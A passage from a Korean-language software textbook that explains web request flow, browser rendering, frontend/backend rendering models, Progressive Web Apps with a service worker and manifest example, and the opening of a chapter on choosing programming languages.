  * 스타일: **Tailwind CSS** (유틸리티 퍼스트 CSS), Styled-Components, Emotion
  * 빌드 도구: **Vite** (초고속 ESM 기반 번들러), Turbopack, Webpack

#### (2) 백엔드 개발자 핵심 기술 스택
* **언어와 프레임워크**:
  * **Java**: **Spring Boot** (엔터프라이즈 기업, 금융, 대기업의 절대 강자, 견고한 객체지향 아키텍처)
  * **JavaScript/TypeScript**: **Node.js**, **NestJS**, Express (비동기 논블로킹 I/O, 빠른 개발 생산성)
  * **Python**: **FastAPI**, Django (간결한 문법, AI/데이터 파이프라인과의 완벽한 결합)
  * **Go (Golang)**: 경량 스레드(Goroutine) 기반 초고성능 동시성 처리, 마이크로서비스 및 인프라 도구에 널리 활용
* **데이터베이스 (Database)**:
  * **RDBMS (관계형 데이터베이스)**: **PostgreSQL**, **MySQL**, Oracle. 엄격한 스키마와 ACID 트랜잭션 보장.
  * **NoSQL (비관계형 데이터베이스)**: **MongoDB** (유연한 도큐먼트 저장), DynamoDB, Cassandra (수평 확장 분산 DB).
  * **In-Memory Cache**: **Redis** (초고속 세션 저장, 랭킹 리더보드, 캐싱 레이어).
* **통신 프로토콜 & API**:
  * **RESTful API**: HTTP 메서드(GET, POST, PUT, DELETE) 기반의 가장 널리 쓰이는 표준.
  * **GraphQL**: 클라이언트가 필요한 데이터 필드만 정확히 골라서 요청할 수 있는 쿼리 언어.
  * **gRPC / Protocol Buffers**: 고속 직렬화 바이너리 통신 (마이크로서비스 간 통신 표준).
  * **WebSocket**: 주식 차트, 실시간 채팅 등을 위한 지속적인 양방향 소켓 연결.
* **인프라, 컨테이너, 데브옵스 (DevOps)**:
  * **Docker**: 애플리케이션을 실행 환경과 함께 독립된 컨테이너로 패키징.
  * **Kubernetes (K8s)**: 수백, 수천 개의 컨테이너를 자동으로 배포, 확장, 복구하는 오케스트레이션 도구.
  * **Cloud Platform**: AWS (EC2, S3, RDS, Lambda), GCP, Azure.
  * **CI/CD 파이프라인**: GitHub Actions, Jenkins, ArgoCD (코드 커밋 시 자동 빌드, 테스트, 무중단 배포).

---

## 04 웹 애플리케이션 개발: 요청에서 픽셀까지의 대여정

우리가 브라우저 주소창에 `https://www.google.com`을 입력하고 키보드 `Enter`를 누른 뒤, 모니터에 화려한 검색 포털 화면이 나타나기까지는 단 **0.3~0.8초**의 시간이 걸립니다. 그러나 이 찰나의 순간 동안 컴퓨터 과학의 50년 역사가 압축된 경이로운 대장정이 펼쳐집니다.

이 흐름(Critical Path)을 한 치의 오차도 없이 이해하는 것은 웹 애플리케이션 개발자의 가장 중요한 기본기입니다.

---

### 1. 엔드투엔드(End-to-End) 요청-응답-렌더링 7단계 전체 흐름



#### STEP 1: 브라우저 캐시 검사 및 DNS 조회 (이름을 좌표로)
1. 사용자가 URL을 입력하면, 브라우저는 가장 먼저 자신의 내부 메모리에 해당 주소에 대한 접속 기록이 있는지 **브라우저 캐시**, **OS의 Hosts 파일**, **라우터 캐시**를 순서대로 확인합니다.
2. 캐시에 없다면 전 세계 인터넷의 전화번호부인 **DNS(Domain Name System) 서버**에 질의합니다.
   * `Root DNS` → `.com Top-Level Domain(TLD) DNS` → `example.com Authoritative DNS`를 거치며 사람이 읽는 도메인을 기계가 통신할 수 있는 IP 주소(예: `93.184.216.34`)로 번역하여 받아옵니다.

#### STEP 2: TCP 3-Way Handshake와 TLS 1.3 암호화 협상 (신뢰의 다리 놓기)
1. 획득한 IP 주소의 표준 웹 포트(HTTP는 80, HTTPS는 443)로 통신을 시작하기 위해 **전송 계층(Transport Layer)의 TCP 3-Way Handshake**를 수행합니다:
   * **SYN**: 클라이언트가 서버에 "통신을 시작하고 싶습니다(시퀀스 번호 X)" 패킷을 전송.
   * **SYN-ACK**: 서버가 "요청을 확인했습니다. 저도 통신할 준비가 되었습니다(시퀀스 번호 Y, ACK X+1)"라고 응답.
   * **ACK**: 클라이언트가 "확인했습니다(ACK Y+1)"를 보내며 가상의 신뢰성 있는 파이프라인을 엽니다.
2. 오늘날 거의 모든 웹은 보안 프로토콜인 **HTTPS**를 사용합니다. 따라서 즉시 **TLS(Transport Layer Security) 핸드셰이크**가 이어집니다.
   * 서버의 디지털 인증서를 검증하고, 비대칭키 암호화(RSA, 타원곡선 등)를 사용해 이번 세션에서만 사용할 대칭 암호화 키를 안전하게 공유합니다. 이제부터 오고 가는 모든 패킷은 제3자가 감청할 수 없게 암호화됩니다.

#### STEP 3: HTTP 요청 메시지 전송 (용건을 말하다)
보안 터널이 완성되면 브라우저는 표준 HTTP 요청 규격에 맞춰 텍스트 기반 요청 메시지를 전송합니다:
```http
GET /products/42 HTTP/1.1
Host: www.example.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) Chrome/128.0.0.0
Accept: text/html,application/xhtml+xml,application/json
Authorization: Bearer eyJhbGciOi... (JWT 인증 토큰)
Cookie: sessionId=abc123xyz
```

#### STEP 4 & 5: 웹 서버(Web Server)와 WAS의 협업 (관문 통과와 로직 처리)
1. 인터넷 최전선에 서 있는 **웹 서버(예: Nginx, Apache, Cloudflare)**가 요청을 수신합니다.
   * 이미지, 폰트, CSS와 같은 정적 파일(Static Assets) 요청이라면 웹 서버가 백엔드까지 가지 않고 디스크나 캐시에서 즉시 반환합니다.
   * 복잡한 데이터 조회나 로그인이 필요한 동적 요청이라면, 웹 서버는 리버스 프록시(Reverse Proxy) 역할을 하여 내부 네트워크의 **WAS(Web Application Server: Spring Boot, Express, Django 등)**로 요청을 전달합니다.
2. WAS의 컨트롤러(Controller)가 요청을 받아 파라미터를 검증하고, 서비스(Service) 레이어의 비즈니스 로직을 호출합니다.
3. 데이터베이스와 통신하여 SQL 쿼리를 실행하고(STEP 6, 7), 결과를 가공하여 최종 응답 데이터를 만듭니다.

#### STEP 6: HTTP 응답 메시지 반환 (결과를 돌려주다)
서버는 처리 결과를 HTTP 상태 코드와 함께 클라이언트로 보냅니다:
```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8
Content-Length: 15420
Cache-Control: max-age=3600

<!DOCTYPE html>
<html lang="ko">
<head> ... </head>
<body> ... </body>
</html>
```

#### STEP 7: 브라우저 렌더링 파이프라인 (Critical Rendering Path)
응답받은 HTML 바이트 스트림이 브라우저에 도착하면, 브라우저 엔진(Blink, WebKit, Gecko)이 가동되어 픽셀을 모니터에 그리는 5단계 연산을 수행합니다:

```
[ 브라우저 렌더링 엔진 파이프라인 ]
1. HTML 바이트 ──► 토큰화 ──► 노드 생성 ──► DOM 트리 구축
                                            │
2. CSS 바이트  ──► 토큰화 ──► 노드 생성 ──► CSSOM 트리 구축
                                            │
                                            ▼
3. DOM + CSSOM 결합 ─────────────► Render Tree (화면에 보일 요소만 선별)
                                            │
                                            ▼
4. Layout (Reflow) ──────────────► 각 요소의 정확한 화면 좌표/크기 계산 (px)
                                            │
                                            ▼
5. Paint & Composite ────────────► 픽셀 색칠 및 레이어 합성 후 GPU 최종 출력!
```

1. **DOM(Document Object Model) 트리 생성**: HTML 문서를 한 줄씩 읽어 내려가며 태그의 부모-자식 관계를 객체 트리 구조로 만듭니다.
2. **CSSOM(CSS Object Model) 트리 생성**: `<link>` 태그나 `<style>` 태그의 CSS를 파싱하여 스타일 규칙 트리를 만듭니다.
3. **Render Tree(렌더 트리) 생성**: DOM과 CSSOM을 결합합니다. 화면에 실제로 표시되지 않는 `<head>`, `<script>`, 또는 `display: none`이 적용된 요소는 렌더 트리에서 완전히 제외됩니다.
4. **Layout (Reflow, 배치)**: 기기의 뷰포트(Viewport) 크기를 기준으로, 각 렌더 트리의 박스가 화면의 가로 몇 픽셀, 세로 몇 픽셀에 위치해야 하는지 기하학적 좌표(Geometry)를 계산합니다.
5. **Paint & Composite (페인팅 및 합성)**: 요소의 배경색, 테두리, 그림자, 글자 폰트를 실제 픽셀 단위로 색칠합니다(Paint). 마지막으로 요소들을 여러 개의 GPU 레이어로 쪼개어 가속한 뒤 하나로 합쳐(Composite) 최종 모니터 화면에 투영합니다.

---

### 2. 웹 프론트엔드의 삼위일체: HTML, CSS, JavaScript의 역할

웹 브라우저가 화면을 그리기 위해 이해하는 원천 기술은 오직 3가지뿐입니다. 이 세 기술은 건물을 짓는 과정이나 인체 구조에 완벽하게 빗댈 수 있습니다.

```
┌─────────────────┬─────────────────┬─────────────────┐
│ HTML (구조)     │ CSS (표현)      │ JavaScript (동작)│
├─────────────────┼─────────────────┼─────────────────┤
│ • 건물의 골조/벽│ • 인테리어/도색 │ • 전기/엘리베이터│
│ • 인체의 뼈대   │ • 피부/옷/헤어  │ • 근육/신경/뇌  │
└─────────────────┴─────────────────┴─────────────────┘
```

#### (1) HTML (HyperText Markup Language): 뼈대와 의미(Semantics)
* **역할**: 웹페이지에 어떤 요소(제목, 문단, 이미지, 버튼, 표)가 존재하는지 구조를 정의하고 의미(Semantics)를 부여합니다.
* **중요성**: 단순히 `<div>` 태그로 도배하는 것이 아니라 `<header>`, `<nav>`, `<main>`, `<article>`, `<footer>`와 같은 시맨틱 태그를 올바르게 작성해야 구글 검색 로봇이 문서를 이해할 수 있고(SEO 최적화), 시각 장애인용 보조기기가 콘텐츠를 읽을 수 있습니다(접근성).

#### (2) CSS (Cascading Style Sheets): 시각적 표현과 공간의 미학
* **역할**: HTML로 세운 무미건조한 뼈대에 색상, 글꼴, 여백, 정렬, 애니메이션, 그림자 효과를 입힙니다.
* **특징**: 모바일, 태블릿, 초고해상도 모니터 등 사용자의 다양한 화면 너비에 맞춰 레이아웃을 유연하게 재배치하는 **반응형 웹 디자인(Responsive Web Design - Media Query, Flexbox, Grid)**을 가능하게 합니다.

#### (3) JavaScript (JS): 생명을 불어넣는 뇌와 신경망
* **역할**: 정적인 문서에 동적인 상호작용과 생명력을 불어넣습니다.
* **주요 동작**:
  * 사용자가 마우스를 올리거나 스크롤할 때 발생하는 이벤트(Event)를 감지하여 반응합니다.
  * 이미 렌더링된 DOM을 실시간으로 조작하여 화면을 새로고침하지 않고도 새로운 목록을 추가하거나 색상을 바꿉니다.
  * 백그라운드에서 서버와 비동기 통신(Fetch API, AJAX)을 수행하여 최신 주가 정보나 새로운 메시지를 가져옵니다.

---

### 3. 프론트엔드-백엔드 연동 방식의 진화

웹 애플리케이션 개발 방식은 브라우저의 성능 향상과 네트워크 대역폭의 증가에 발맞추어 끊임없이 진화해 왔습니다.



1. **전통적 서버 사이드 렌더링 (SSR: Server-Side Rendering) - MPA 방식**:
   * PHP, JSP, ASP.NET, Django 템플릿 방식입니다.
   * 사용자가 페이지를 이동할 때마다 서버가 데이터베이스를 조회하여 HTML 파일을 완성형으로 구워낸 뒤 브라우저에 던져줍니다.
   * 브라우저는 매번 하얀 화면을 거쳐 페이지 전체를 새로고침해야 했으므로 부드러운 사용자 경험을 제공하기 어려웠습니다.
2. **클라이언트 사이드 렌더링 (CSR: Client-Side Rendering) - SPA 방식**:
   * AJAX 기술과 React, Vue, Angular의 등장으로 대세가 된 방식입니다.
   * 서버는 초기에 껍데기뿐인 빈 `index.html`과 거대한 자바스크립트 번들 파일을 한 번만 보내줍니다.
   * 이후 브라우저에서 자바스크립트가 실행되면서 화면을 직접 만들고, 서버와는 오직 **RESTful API나 GraphQL을 통해 JSON 데이터**만 주고받습니다.
   * 화면 깜빡임이 전혀 없고 데스크톱 앱처럼 기민하게 반응하지만, 초기 자바스크립트 파일이 커서 첫 진입 속도가 느리고, HTML이 비어 있어 검색엔진(SEO) 수집 로봇에게 불리하다는 치명적인 약점이 드러났습니다.
3. **모던 풀스택 하이브리드 렌더링 (Universal Rendering / Next.js)**:
   * SSR과 CSR의 장점만을 결합한 현대 웹 아키텍처의 정점입니다.
   * 사용자가 웹사이트에 처음 방문했을 때 첫 화면은 서버에서 미리 HTML로 초고속 렌더링하여 보내줍니다(완벽한 SEO와 번개 같은 첫 화면).
   * 브라우저에 HTML이 도착한 직후, 백그라운드에서 자바스크립트 이벤트 리스너를 결합하는 **수화(Hydration)** 과정을 거쳐, 이후의 모든 페이지 이동과 상호작용은 SPA처럼 단 1ms의 깜빡임도 없이 매끄럽게 동작합니다.
   * 최근에는 React Server Components(RSC)를 통해 서버 전용 컴포넌트와 클라이언트 전용 컴포넌트를 분리하여 클라이언트로 내려가는 자바스크립트 코드의 크기를 획기적으로 줄이고 있습니다.

---

## (+) Special Topic: PWA(프로그레시브 웹 앱)는 무엇인가요?

> **"웹의 강력한 보편적 접근성(Reach)에 네이티브 앱의 탁월한 사용자 경험(Capabilities)을 더할 수는 없을까?"**

이 야심 찬 질문에서 탄생한 기술이 바로 **PWA(Progressive Web Apps: 프로그레시브 웹 앱)**입니다. 구글의 엔지니어 알렉스 러셀(Alex Russell)이 제창한 PWA는 완전히 새로운 프로그래밍 언어나 프레임워크가 아닙니다. 최신 브라우저 표준 API들을 조합하여 **"일반 웹사이트를 마치 스마트폰에 정식 설치된 네이티브 앱처럼 작동하게 만드는 웹 기술의 집대성"**입니다.

---

### 1. PWA의 탄생 배경: 모바일 앱의 피로도와 웹의 한계

스마트폰 생태계가 성숙기에 접어들며 기업들은 심각한 문제에 직면했습니다:
* **네이티브 앱의 장벽 (App Fatigue)**:
  * 사용자는 새로운 서비스를 쓰기 위해 100MB가 넘는 앱을 앱스토어에서 다운로드받기를 꺼립니다. 통계에 따르면 일반 사용자가 한 달에 새로 설치하는 앱의 수는 '0개'에 가깝습니다.
  * 구글과 애플의 30%에 달하는 인앱 결제 수수료와 까다로운 스토어 심사는 스타트업과 기업에게 큰 부담입니다.
* **기존 모바일 웹의 태생적 한계**:
  * 비행기 모드나 지하철 터널처럼 인터넷이 끊기면 공룡 게임 화면(오프라인 에러)이 뜨며 아무 작업도 할 수 없습니다.
  * 고객의 재방문을 유도할 수 있는 가장 강력한 무기인 **'푸시 알림(Push Notification)'**을 웹에서는 보낼 수 없었습니다.
  * 스마트폰 바탕화면에 앱 아이콘을 설치할 수 없어 접근성이 떨어졌습니다.

PWA는 이 두 세계의 딜레마를 완벽하게 절충합니다. 사용자는 **URL 링크를 타고 들어와 즉시 서비스를 사용**할 수 있고, 마음에 들면 단 1초 만에 **홈 화면에 앱으로 설치**할 수 있으며, **인터넷이 끊겨도 오프라인 상태에서 정상 작동**합니다.

---

### 2. PWA를 지탱하는 3대 핵심 기술 기둥



#### 기둥 1: 서비스 워커 (Service Worker) - 브라우저 속의 프라이빗 프록시 서버
서비스 워커는 PWA의 뇌에 해당합니다. 웹페이지의 메인 자바스크립트 실행 스레드와 완전히 분리된 별도의 백그라운드 스레드에서 돌아가는 자바스크립트 파일입니다.

* **동작 특성**:
  * 웹페이지가 닫혀 있어도 브라우저 백그라운드에 살아남아 실행될 수 있습니다.
  * 화면의 UI(DOM)에 직접 접근할 수는 없지만, 브라우저가 외부 인터넷으로 내보내는 **모든 네트워크 요청(Fetch)을 중간에서 가로채는(Intercept)** 강력한 권한을 가집니다.
* **오프라인 캐싱 전략 (Offline Caching)**:
  * 서비스 워커는 브라우저 내부의 `Cache Storage`에 HTML, CSS, JS, 이미지, API JSON 데이터를 마음대로 저장하고 꺼낼 수 있습니다.
  * 인터넷이 끊기면 서비스 워커가 네트워크 요청을 가로채어, 서버 대신 로컬 캐시에 저장된 화면을 즉시 띄워줍니다. 사용자는 오프라인 상태인지도 모른 채 앱을 계속 사용할 수 있습니다!

```javascript
// 서비스 워커의 네트워크 요청 가로채기 기본 예시
self.addEventListener('fetch', (event) => {
  event.respondWith(
    // 1. 먼저 로컬 캐시에서 일치하는 자원이 있는지 확인
    caches.match(event.request).then((cachedResponse) => {
      if (cachedResponse) {
        return cachedResponse; // 캐시가 있으면 즉시 반환 (오프라인 지원)
      }
      // 2. 캐시에 없으면 실제 외부 네트워크로 요청
      return fetch(event.request);
    })
  );
});
```

* **대표적인 캐싱 전략 패턴**:
  * **Cache First (캐시 우선)**: 폰트나 로고처럼 거의 바뀌지 않는 정적 자원에 적용. 캐시를 먼저 보고 없을 때만 네트워크로 이동.
  * **Network First (네트워크 우선)**: 주식 가격, 실시간 뉴스처럼 최신 데이터가 생명인 경우 적용. 네트워크를 먼저 시도하고, 오프라인으로 실패하면 캐시된 이전 데이터를 보여줌.
  * **Stale-While-Revalidate**: 가장 진보된 패턴. 캐시된 데이터를 즉시 화면에 보여주어 응답 속도를 0초로 만들면서, 동시에 백그라운드에서 네트워크로 최신 데이터를 받아와 캐시를 갱신해 둠.

#### 기둥 2: 웹 앱 매니페스트 (Web App Manifest) - 앱의 주민등록증
* **정의**: 웹사이트의 루트 경로에 위치하는 단 하나의 메타데이터 설정 파일인 `manifest.json`입니다.
* **역할**:
  * 브라우저에게 "이 사이트는 단순한 웹페이지가 아니라 설치 가능한 앱이다"라는 것을 알려줍니다.
  * 앱의 이름(`name`, `short_name`), 홈 화면에 표시될 고해상도 앱 아이콘 이미지 경로, 테마 색상(`theme_color`)을 정의합니다.
  * 가장 핵심적인 속성은 `"display": "standalone"`입니다. 이 옵션이 켜지면 앱이 실행될 때 브라우저 특유의 **상단 URL 주소창과 하단 뒤로가기 버튼 툴바가 완전히 사라지고**, 모바일 화면 전체를 채우는 완벽한 네이티브 앱 형태로 실행됩니다.

```json
{
  "name": "기술노트 공식 프로그레시브 웹 앱",
  "short_name": "기술노트",
  "start_url": "/",
  "display": "standalone",
  "background_color": "#ffffff",
  "theme_color": "#0288d1",
  "icons": [
    {
      "src": "/icons/icon-192x192.png",
      "sizes": "192x192",
      "type": "image/png"
    },
    {
      "src": "/icons/icon-512x512.png",
      "sizes": "512x512",
      "type": "image/png"
    }
  ]
}
```

#### 기둥 3: 푸시 알림 (Push API) & 백그라운드 동기화 (Background Sync)
* **Web Push API**:
  * 사용자가 웹사이트를 켜두지 않고 브라우저를 완전히 닫아두었거나 스마트폰 화면이 꺼져 있는 상태에서도, 서버에서 보낸 마케팅/알림 메시지를 수신하여 스마트폰 상단 알림 바에 네이티브 알림 형태로 띄울 수 있습니다.
* **Background Sync API**:
  * 사용자가 지하철 터널에서 댓글을 작성하거나 결제 버튼을 눌렀는데 네트워크가 끊겼다고 가정해 봅시다.
  * 일반 웹사이트라면 작성하던 글이 전부 날아가겠지만, PWA는 서비스 워커가 요청을 임시 보관해 두었다가 **스마트폰이 다시 와이파이나 LTE에 연결되는 순간 백그라운드에서 자동으로 서버로 전송**을 완료합니다.

---

### 3. PWA의 명암: 무한한 기회와 현실적 한계

#### PWA의 눈부신 장점
1. **극적인 개발 및 유지보수 비용 절감**:
   * 웹, iOS 앱, Android 앱을 따로 만들 필요 없이 **오직 하나의 웹 기술(HTML/CSS/JS) 코드베이스**로 모든 플랫폼을 통일할 수 있습니다.
2. **다운로드 저항 제로 (초경량 크기)**:
   * 네이티브 앱은 설치 용량이 보통 50MB~200MB에 달하지만, PWA는 필요한 핵심 에셋만 캐싱하므로 설치 용량이 수백 킬로바이트(KB)~수 메가바이트(MB)에 불과합니다.
3. **스토어 심사 없는 실시간 배포**:
   * 애플이나 구글의 승인을 기다릴 필요 없이, 웹 서버에 새 코드를 배포하는 순간 전 세계 사용자의 앱에 즉시 최신 기능이 반영됩니다.
4. **강력한 바이럴과 검색엔진 최적화 (SEO)**:
   * 앱스토어의 폐쇄적인 검색을 넘어, 구글이나 네이버 포털 검색창에 앱 내부의 모든 콘텐츠가 노출되며, 링크(URL) 하나로 카카오톡이나 트위터에 앱을 통째로 공유할 수 있습니다.

#### 현존하는 한계와 극복 과제
1. **애플(iOS/Safari)의 폐쇄성과 제약**:
   * 구글 안드로이드는 PWA를 전폭적으로 지원하지만, 자체 앱스토어 생태계 수익을 지키려는 애플은 사파리(WebKit)에서 PWA 지원에 상대적으로 소극적입니다.
   * iOS 환경에서는 백그라운드 동기화, 블루투스/NFC 제어 등이 엄격히 차단되며, 알림 기능(Web Push)도 최신 iOS 버전에서 홈 화면에 설치된 PWA에 한해서만 제한적으로 풀렸습니다.
2. **고성능 하드웨어 심층 제어의 한계**:
   * 3D 고사양 게임 엔진, 정밀한 카메라 센서 조작, 저수준 하드웨어 인터럽트 제어는 여전히 네이티브 앱을 따라갈 수 없습니다.

#### 글로벌 성공 사례가 증명한 PWA의 위력
* **Twitter (현 X) Lite**:
  * 트위터는 모바일 웹을 PWA로 전면 개편하여 데이터 사용량을 70% 절감하고, 앱 용량을 600KB 미만으로 줄였습니다. 그 결과 이탈률이 20% 감소하고 전 세계 트윗 전송량이 75% 폭증했습니다.
* **Pinterest**:
  * 기존 모바일 웹 경험이 너무 느려 전환율이 낮았던 핀터레스트는 PWA 도입 후 핵심 비즈니스 지표인 사용 시간(Time Spent)이 40% 증가했고, 광고 클릭 수익이 44% 급증했습니다.
* **Starbucks**:
  * 매장 방문 전 오프라인 상태에서도 메뉴판을 보고 장바구니에 음료를 담을 수 있는 초경량 PWA를 구축하여, 네이티브 iOS 앱과 거의 동일한 주문 전환율을 달성했습니다.

---

## 05 마치며: 플랫폼의 경계가 무너지는 시대를 맞이하며

지금까지 우리는 하드웨어를 깨우는 가장 밑바닥의 **시스템 소프트웨어**부터, 비즈니스를 꽃피우는 **응용 소프트웨어**, 그리고 화면과 서버를 지탱하는 **프론트엔드와 백엔드**, 나아가 모바일과 웹의 경계를 허무는 **PWA**까지 소프트웨어의 방대한 지도를 함께 여행했습니다.

현대 컴퓨터 과학의 역사는 끊임없는 **'추상화(Abstraction)'**와 **'융합(Convergence)'**의 역사였습니다.
* 과거에는 하드웨어 기종마다 어셈블리어로 드라이버를 직접 작성해야 했지만, 운영체제와 표준 API가 등장하며 소프트웨어 개발의 생산성이 폭발했습니다.
* 과거에는 데스크톱과 모바일, 웹이 서로 완전히 다른 세상이었지만, 지금은 브라우저의 성능이 비약적으로 발전하고 WebAssembly와 PWA 같은 신기술이 등장하면서 "웹 브라우저 자체가 하나의 거대한 만능 운영체제"로 진화하고 있습니다.

소프트웨어 아키텍처에는 **"모든 상황에 들어맞는 은총알(Silver Bullet)은 없다"**는 유명한 격언이 있습니다. 
최상의 3D 그래픽과 극한의 반응 속도가 필요하다면 막대한 비용을 감수하더라도 **네이티브 앱**을 선택해야 합니다. 빠른 시장 검증과 적은 예산으로 안드로이드와 아이폰 사용자를 동시에 잡아야 한다면 **크로스 플랫폼(React Native, Flutter)**이 정답일 것입니다. 설치의 장벽을 없애고 전 세계 수십억 웹 사용자에게 번개처럼 다가가고 싶다면 **모던 웹 애플리케이션과 PWA**가 최고의 무기가 될 것입니다.

본 파트에서 정립한 소프트웨어의 종류와 아키텍처적 특성은 앞으로 여러분이 마주할 데이터베이스, 네트워크 프로토콜, 클라우드 인프라, 그리고 대규모 분산 시스템 설계의 든든한 나침반이 되어줄 것입니다.


---

# PART 03 소프트웨어를 만드는 개발 언어 및 프레임워크

> "어떤 프로그래밍 언어를 사용하는가는 프로그래머가 사고하는 방식과 문제 해결의 시야를 근본적으로 결정합니다."

현대 소프트웨어 개발 생태계는 눈부신 속도로 팽창하고 있습니다. 매년 새로운 언어와 프레임워크가 등장하고, 기존 기술들은 거대한 생태계를 이루며 발전합니다. 개발을 처음 시작하거나 새로운 프로젝트를 기획하는 엔지니어에게 가장 먼저 다가오는 질문은 언제나 **"무엇으로 만들 것인가?"**입니다.

소프트웨어는 단순한 텍스트 파일의 집합이 아니라, 비즈니스의 가치를 실현하고 컴퓨터 하드웨어의 자원을 제어하는 정교한 건축물입니다. 이번 파트에서는 소프트웨어 개발의 근간이 되는 주요 프로그래밍 언어들의 철학과 메커니즘, 그리고 애플리케이션의 뼈대를 이루는 프레임워크의 세계를 하나씩 깊이 있게 탐구합니다.

---

## 01 언제 어떤 언어를 선택하는 게 좋을까요?

새로운 소프트웨어 프로젝트를 기획할 때 가장 치열하게 고민하는 영역 중 하나가 바로 기술 스택, 특히 **개발 언어의 선정**입니다. "가장 뛰어난 단 하나의 프로그래밍 언어"는 존재하지 않습니다. 모든 언어는 특정 시대의 문제를 해결하기 위해 고유한 철학을 품고 탄생했기 때문입니다. 따라서 언어 선택은 언제나 **트레이드오프(Trade-off)**의 예술입니다.

```
                    [ 언어 선택의 5대 축 ]
                         
                         성능 (Performance)
                               ▲
                              ╱ ╲
                             ╱   ╲
     러닝 커브              ╱     ╲             생산성
   (Learning Curve) ◄─────┼───────┼─────► (Productivity)
                            ╲     ╱
                             ╲   ╱
                              ▼ 
                      생태계 및 도메인
                  (Ecosystem & Domain)
```

언어를 결정할 때는 다음의 5가지 핵심 축을 면밀히 분석해야 합니다.

1. **개발 도메인 (Domain Suitability)**
   * 하드웨어 제어/임베디드: C, C++, Rust
   * 웹 프론트엔드: JavaScript, TypeScript
   * 웹 백엔드: Java, Kotlin, Go, Python, Node.js, C#
   * 모바일 앱: Swift(iOS), Kotlin(Android), Dart(Flutter)
   * 데이터 분석 및 AI/머신러닝: Python, R, C++
   * 대규모 분산 시스템/인프라: Go, Rust, Java
   * 게임 엔진: C++, C#

2. **성능 요구사항 (Performance & Latency)**
   * 마이크로초(μs) 단위의 초저지연(Low-Latency)과 하드웨어 한계 돌파가 필요한가? (C, C++, Rust)
   * 대규모 I/O 동시성 처리와 안정적인 처리량이 핵심인가? (Go, Java, Node.js)
   * 비즈니스 로직의 신속한 시장 검증이 절대 성능보다 우선인가? (Python, Ruby, JavaScript)

3. **생산성 및 타임투마켓 (Productivity & Time-to-Market)**
